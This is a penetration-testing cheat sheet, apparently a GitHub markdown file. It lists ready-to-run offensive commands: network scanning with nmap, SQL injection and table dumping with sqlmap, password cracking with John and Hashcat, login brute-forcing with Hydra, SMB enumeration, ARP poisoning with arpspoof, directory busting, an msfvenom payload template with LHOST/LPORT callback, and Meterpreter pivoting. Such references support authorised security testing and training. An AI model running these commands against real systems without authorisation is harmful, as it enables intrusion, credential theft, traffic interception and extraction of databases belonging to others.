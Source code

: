 # Nmap
___
#### Ping Sweep
```sh
nmap -sn <CIDR Notation>        #Finding alive IP addresses in the subnet
```
You can also perform ping sweep using fping tool
```
fping -a -g 10.54.12.0/24 2>/dev/null
```

Now you need to find open ports on each alive IP, you can perform this using two methods
#### METHOD - 1
Perform aggressive scan on all ports which might do not required to be scanned. This could cost you time and give results which might not be useful.
```sh
nmap -p- -A -Pn -iL hosts.txt       # hosts.txt file contains the alive host addresses
```
#### METHOD - 2
This method first find the open ports and after this you can perform aggressive scan on particular port. This method do not probe all the available ports blindly and you can choose which port might be useful to you to scan.

```sh
nmap -p- -T4 -Pn -vv -iL hosts.txt      # This will give you all the open ports on hosts provided using hosts.txt file

nmap -p<ports> -A -Pn -vv <IP>      # This will only probe ports selected by you for particular IP
```


# Analyzing HTTP and HTTPS
___

#### HTTP
```sh
nc -v www.abc.com 80        # After pressing enter you are prompted to send some data

Type two lines given below and press enter two times to get http response
GET / HTTP/1.1
Host: www.abc.com 
```
#### HTTPs
```sh
openssl s_client -connect hack.me 443       # Establish ssl connection
```
After establishing ssl connection you can proceed like nc prompt

# Checking Routes and Adding Manual Routes
___

#### Checking Routes
```
ip route    # Checking defined routes in linux
route       # Checking defined routes in linux
route print     # Checking defined routes in windows
```
#### Adding Manual Routes
```sh
ip route add <subnet> via <gateway or router address>
```
for example,
```sh
ip route add 192.168.222.0/24 via 10.172.24.1       # Here 10.172.24.1 is the address of the gateway for subnet 192.168.222.0/24
```


# Finding MAC Addresses
___

```
ipconfig /all       # windows
ifconfig        # *nix OSs
ip addr     # linux
```

# Checking ARP Cache
___


```
arp -a      # Windows
arp     # *nix OSs
ip neighbour        # Linux 
```
# Checking for Listening Ports on a Host
___
```
netstat -ano        # Windows
netstat -tunp       # linux
```

# SQLmap
___

#### Checking for existence of SQL injection
```sh
sqlmap -u ‘http://example.com/view.php?id=1141’ -p id       # GET Method

sqlmap -u ‘http://example.com/view.php’ --data <POST String> -p <parameter>     # POST Method
```
If vulnerable parameter found then you can proceed with extraction of data from database
```sh
sqlmap -u ‘http://example.com/view.php?id=1141’ --dbs     # Getting database names
sqlmap -u ‘http://example.com/view.php?id=1141’ -D <DB_name> --tables   # Getting table names
sqlmap -u ‘http://example.com/view.php?id=1141’ -D <db_name> -T <tbl_name> --columns    # Getting columns
sqlmap -u ‘http://example.com/view.php?id=1141’ -D <DB_name> -T <tbl_name> -C <column_name_comma_separate> --dump # To dump whole table remove column specification from the command and use only --dump option
```
# John-The-Ripper
___
```sh
john --list=formats
john -incremental -users:<users list> <file to crack>       # if you want to crack only certain users from the password database such as /etc/shadow file
john --show crackme     # Check cracked password after completion of cracking session, where crackme is the password database file
john -wordlist=<wordlist> <file to crack>
john -wordlist=<wordlist> -rules <file to crack>        # rules are used for cracking mangling words such as for cat mangling words could be c@t,caT,CAT,CaT
```
# Hydra
___

```sh
hydra -U ftp        # hydra uses module for each service to attack. To get information about a module this command can be used
hydra -L users.txt -P pass.txt <service://server> <options>
hydra -l admin -P pass.txt -f ftp://10.10.10.10        # Stop attacking on finding first successful hit for user admin
hydra  -L users.txt -P passwords.txt <IP> http-post-form "/login.php:user=^USER^&pass=^PASS^:Incorrect credentials" -f -V    # Attacking http post form
```

# Hashcat
___

```sh
hashcat -m 0 -a 0 exam.hash file.dict
hashcat -m 0 -a 0 exam.hash file.dict -r rule/custom.rule       # here rule file contains the rules to creat mangling word such as p@ssword, PaSSworD  https://hashcat.net/wiki/doku.php?id=rule_based_attack 
hashcat -m 0 -a 3 exam.hash ?l?l?l?l?l?a        # https://hashcat.net/wiki/doku.php?id=mask_attack
```
# SMB Enumeration
___

#### enum4linux
```sh
enum4linux -a <ip>      # Enumerating using enum4linux tool
```
#### smbclient
```sh
smbclient -L //IP -N    # Checking for available shares
smbclient //<target IP>/IPC$ -N     # Connecting to a share
```
#### nmap scripts
```sh
nmap -p445 --script=smb-vuln-* <IP> -v      # This will run all the smb-vuln scripts, if you want to run only few scripts then you can check other available scripts in /usr/share/nmap/scripts
```
# Checking for anonymous FTP 
___
```sh
ftp <IP>        # enter 'anonymous' as username and password
```
# ARP Poisoning
___
```sh
echo 1 > /proc/sys/net/ipv4/ip_forward      # enabling Linux Kernel IP Forwarding, to enable forwarding packet to real destination host
arpspoof -i <interface> -t <target> -r <host>       # if arpspoof do not work then install dsniff which includes this tool also
```
# MySQL
___

If you find mysql information then you can try connecting to mysql service remotely.
```sh
mysql -u <user> -p<password> -h <IP> -D <dbname>
```
# Directory busting
___
#### dirb
```sh
dirb http://<IP>/
dirb http://<IP>/ <dictionary_file_path>    # Use dictionary other than default one
dirb http://<IP>/dir -u admin:admin    # When you want to bust recursively but a dir asks for username password which you know already 
```
#### gobuster
```sh
gobuster dir --url http://<IP>/ --wordlist=<wordlist_file_path>     # -t <value> for more threads
gobuster dir --url http://<IP>/dir --wordlist=<wordlist_file_path> -U username -P password
```

# MsfVenom Payload Creation
___
```sh
msfvenom -p <payload_path> LHOST=<IP> LPORT=<PORT> -f <format> -o shell
```

# Meterpreter Autoroute
___

```
meterpreter> run autoroute -s <subnet>
meterpreter > run autoroute -p      # show active route table

